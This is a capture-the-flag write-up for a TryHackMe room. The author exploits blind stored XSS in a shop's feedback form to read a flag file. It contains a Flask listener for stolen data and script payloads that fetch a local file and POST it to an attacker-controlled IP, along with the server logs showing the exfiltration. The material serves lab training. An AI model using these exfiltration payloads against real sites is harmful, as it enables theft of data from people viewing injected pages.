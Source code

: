 # Can you exploit the sticker shop in order to capture the flag?
https://tryhackme.com/room/thestickershop

# Reconnaissance
Not much to see, there is a feedback page

# Findings
feedback does not appear to be variable to XSS, but does give a clue once submited **Thanks for your feedback! It will be evaluated shortly by our staff**
# Exploiting Findings

Spinning up a flask server on our attack box / VPN address to capture post request on port 5000

```
nano flaskserverpost.py
```

```
from flask import Flask, request

app = Flask(__name__)

@app.route('/steal', methods=['POST'])
def steal():
    data = request.data.decode('utf-8')  # Read raw POST data
    print(f"Stolen Data: {data}")
    return "Data received", 200

if __name__ == '__main__':
    app.run(host='10.4.114.252', port=5000)
```

```
python flaskserverpost.py
 * Serving Flask app 'flaskserverpost'
 * Debug mode: off
WARNING: This is a development server. Do not use it in a production deployment. Use a production WSGI server instead.
 * Running on http://10.4.114.252:5000
```

Sending a test post by summiting the following in the feedback form
```
<script>fetch("http://10.4.114.252:5000/steal", {
    method: "POST",
    headers: { "Content-Type": "text/plain" },
    body: "test_post"
});</script>
```

Yes we get the following in the flask server, this also shows us CORs shouldn't be an issue

```
└─$ python flaskserverpost.py
 * Serving Flask app 'flaskserverpost'
 * Debug mode: off
WARNING: This is a development server. Do not use it in a production deployment. Use a production WSGI server instead.
 * Running on http://10.4.114.252:5000
Press CTRL+C to quit
Stolen Data: test_post
10.10.138.151 - - [19/Mar/2025 02:14:28] "POST /steal HTTP/1.1" 200 -
Stolen Data: test_post
10.10.138.151 - - [19/Mar/2025 02:14:38] "POST /steal HTTP/1.1" 200 -
Stolen Data: test_post
10.10.138.151 - - [19/Mar/2025 02:14:48] "POST /steal HTTP/1.1" 200 -
Stolen Data: test_post
10.10.138.151 - - [19/Mar/2025 02:14:59] "POST /steal HTTP/1.1" 200 -
Stolen Data: test_post
10.10.138.151 - - [19/Mar/2025 02:15:09] "POST /steal HTTP/1.1" 200 -
Stolen Data: test_post
```

Now to attempt steal the flag

```
<script>
fetch("http://10.10.138.151:8080/flag.txt")
  .then(r => r.text())
  .then(d => { console.log(d); return fetch("http://10.4.114.252:5000/steal", {method: "POST", headers: {"Content-Type": "text/plain"}, body: d}); });
</script>
```

No returned data, maybe if we used localhost? 

```
<script>
fetch("http://127.0.0.1:8080/flag.txt")
  .then(r => r.text())
  .then(d => { console.log(d); return fetch("http://10.4.114.252:5000/steal", {method: "POST", headers: {"Content-Type": "text/plain"}, body: d}); });
</script>
```

Yes! flag is returned, What is the content of flag.txt?

```
─$ python flaskserverpost.py
 * Serving Flask app 'flaskserverpost'
 * Debug mode: off
WARNING: This is a development server. Do not use it in a production deployment. Use a production WSGI server instead.
 * Running on http://10.4.114.252:5000
Press CTRL+C to quit
Stolen Data: test_post
10.10.138.151 - - [19/Mar/2025 02:14:28] "POST /steal HTTP/1.1" 200 -
Stolen Data: test_post
10.10.138.151 - - [19/Mar/2025 02:14:38] "POST /steal HTTP/1.1" 200 -
Stolen Data: test_post
10.10.138.151 - - [19/Mar/2025 02:14:48] "POST /steal HTTP/1.1" 200 -
Stolen Data: test_post
10.10.138.151 - - [19/Mar/2025 02:14:59] "POST /steal HTTP/1.1" 200 -
Stolen Data: test_post
10.10.138.151 - - [19/Mar/2025 02:15:09] "POST /steal HTTP/1.1" 200 -
Stolen Data: test_post
10.10.138.151 - - [19/Mar/2025 02:15:19] "POST /steal HTTP/1.1" 200 -
Stolen Data: THM{xxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxx}
10.10.138.151 - - [19/Mar/2025 02:16:11] "POST /steal HTTP/1.1" 200 -
Stolen Data: THM{xxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxx}
10.10.138.151 - - [19/Mar/2025 02:16:21] "POST /steal HTTP/1.1" 200 -

```

# Summary 
Not much to this CTF, the deviation on the "easy" difficulty is quite large. 